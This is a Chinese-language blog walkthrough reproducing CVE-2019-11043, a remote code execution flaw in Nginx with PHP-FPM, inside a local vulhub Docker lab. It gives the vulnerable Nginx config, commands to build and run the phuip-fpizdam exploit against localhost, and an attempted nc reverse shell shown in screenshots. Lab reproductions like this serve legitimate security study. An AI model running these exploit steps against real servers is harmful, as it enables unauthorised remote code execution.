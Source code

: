```yaml
---
title: PHP远程代码执行漏洞复现（CVE-2019-11043）   --神之右手
layout: mypost
categories: [漏洞复现]
---
```


# PHP远程代码执行漏洞复现（CVE-2019-11043）

漏洞描述：

CVE-2019-11043是一个远程代码执行漏洞，使用某些特定配置的 Nginx + PHP-FPM 的服务器存在漏洞，可允许攻击者远程执行代码。

向Nginx + PHP-FPM的服务器 URL发送 %0a 时，服务器返回异常。

该漏洞需要在nginx.conf中进行特定配置才能触发。具体配置如下：

location ~ [ ^/ ] \ .php(/|$) {

 ...

 fastcgi_split_path_info ^(.+?\.php)(/.*)$;

fastcgi_param PATH_INFO $fastcgi_path_info;

fastcgi_pass   php:9000;

...

}

攻击者可以使用换行符（％0a）来破坏fastcgi_split_path_info指令中的Regexp。 Regexp被损坏导致PATH_INFO为空，同时slen可控，从而触发该漏洞。。

在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响，另外，PHP 5.6版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行，该漏洞影响的版本有：

PHP 7.0 版本

PHP 7.1 版本

PHP 7.2 版本

PHP 7.3 版本

## 漏洞复现：

使用docker环境进行复现。

#### 环境准备：

安装docker、golang环境：

apt-get install docker docker-compose

![image-20210817115556444](1.png)

apt install golang

![image-20210817115534582](2.png)

#### 搭建漏洞环境：

git clone https://github.com/vulhub/vulhub.git

![image-20210817130833304](3.png)

如果无法下载的话，建议使用科学下载

cd vulhub/php/CVE-2019-11043 && docker-compose up -d

![image-20210817131351893](4.png)

启动环境之后，就可以看到漏洞环境的默认页面。在此为 http://127.0.0.1:8080/index.php。

![image-20210813135844757](5.png)

#### 安装漏洞利用工具：

git clone https://github.com/neex/phuip-fpizdam.git

cd phuip-fpizdam

go get -v && go build

![image-20210817115259867](6.png)

产生报错是默认使用国外源proxy.golang.org，在国内无法访问。需要使用国内源，使用下面命令后重新下载                                       即可。

go env -w GOPROXY=https://goproxy.cn

![image-20210817115349636](7.png)

#### 漏洞利用：

运行编译生成的文件：

./phuip-fpizdam http://127.0.0.1:8080/index.php

![image-20210817131740996](8.png)

执行：

go run . "http://127.0.0.1:8080/index.php"

![image-20210817131946310](9.png)

访问网址http://127.0.0.1:8080/index.php，在后面直接加参数，即可执行命令。

![image-20210817132059652](10.png)

![image-20210817132157353](11.png)![image-20210817132304368](12.png)



### 反弹shell：

使用一下命令检查docker容器内是否有nc：

docker ps			//查看主机开启的docker容器

docker exec -it de3c7fd540f7 bash			//使用bash方式进入docker环境

docker exec -it de3c7fd540f7 sh				//使用sh方式进入docker环境

![image-20210817132815863](13.png)

经检查，在这里的docker容器里没有nc命令，所以需要给docker容器安装一个nc：

因为有两个docker镜像，一个是nginx，另一个是php，由于不知道具体哪一个容器可以反弹shell，所以一个一个试，显示nginx容器：

![image-20210817134221111](14.png)

进入nginx的容器，更新并安装nc：

![image-20210817134448244](15.png)

![image-20210817134609424](16.png)

此时，已在容器中安装好nc，退出容器，回到浏览器，使用nc本地监听的端口：

![image-20210817135033864](17.png)

![image-20210817135129899](18.png)

在这里没有监听到，我们换一个容器再试一次。

![image-20210817140206693](19.png)

其实当我看到这里的路径，就感觉到这次对了，接着继续下载nc：

![image-20210817140315069](20.png)

退出容器，回到浏览器，反弹到本地端口：

![image-20210817141539395](21.png)

![image-20210817141604207](22.png)

nc连接成功，试下反弹shell：

![image-20210817141905080](23.png)

这里出现报错，原因未知，下次有时间在看一下。
